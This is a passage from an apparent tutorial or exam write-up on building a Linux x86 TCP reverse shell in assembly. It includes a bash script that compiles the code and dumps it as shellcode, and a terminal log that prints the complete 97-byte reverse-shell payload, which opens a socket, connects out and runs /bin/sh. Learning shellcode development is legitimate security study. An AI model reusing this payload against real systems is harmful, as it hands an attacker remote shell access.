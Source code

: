 If you didn't you do now!

For your own sake, make sure you read over it and fully understand it. It'll help you to understand how it works on a fundamental level.


## Testing our reverse shell

So if you're not aware we can't just run assembly from the file, it first needs to be compile and then linked.

During my testing I went ahead and created a file that foes all this along with dumping the shellcode of the compiled file. Please use it to compile your assembly file:
```
# This compiles your assembly code and dumps the shellcode 

# Compile and output
nasm -f elf32 -o $1.o $1.asm; ld -d -o $1 $1.o

# Gets shellcode from output file

## Prints the shellcode in little endian

RAW=$(objdump -d "$1" | grep "^ "|awk -F"[\t]" '{print $2}')
SHELLCODE=""
COUNT=0
for word in $RAW
do
	SHELLCODE=${SHELLCODE}${word:6:2}${word:4:2}${word:2:2}${word:0:2}
	((COUNT++))
done
echo ""
echo "Shellcode: "
echo $SHELLCODE | sed 's/ //g'| sed 's/.\{2\}/\\x&/g'|paste -d '' -s
echo "Shellcode size: ${COUNT} bytes"
```


You then pass the name (NOT INCLUDING EXTENSION) as an argument to the bash file to compile and like it like so:

```
root@ubuntu:/mnt/hgfs/assembly/exam/2-Assignment# ./compile-shell-dump.sh reverse_shell_tcp

Shellcode: 
\x31\xc0\xb0\x66\x31\xdb\x53\x43\x53\x6a\x02\x89\xe1\xcd\x80\x31\xf6\x89\xc6\x31\xc0\xb0\x66\x31\xdb\xb3\x03\x31\xd2\xba\x82\x03\x03\x04\x81\xea\x03\x03\x03\x03\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe2\x6a\x10\x52\x56\x89\xe1\xcd\x80\x31\xc9\xb1\x02\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xf6\x31\xd2\xcd\x80
Shellcode size: 97 bytes
root@ubuntu:/mnt/hgfs/assembly/exam/2-Assignment# ls
compile-shell-dump.sh  reverse_shell_tcp  reverse_shell_tcp.asm  reverse_shell_tcp.o
root@ubuntu:/mnt/hgfs/assembly/exam/2-Assignment#
```
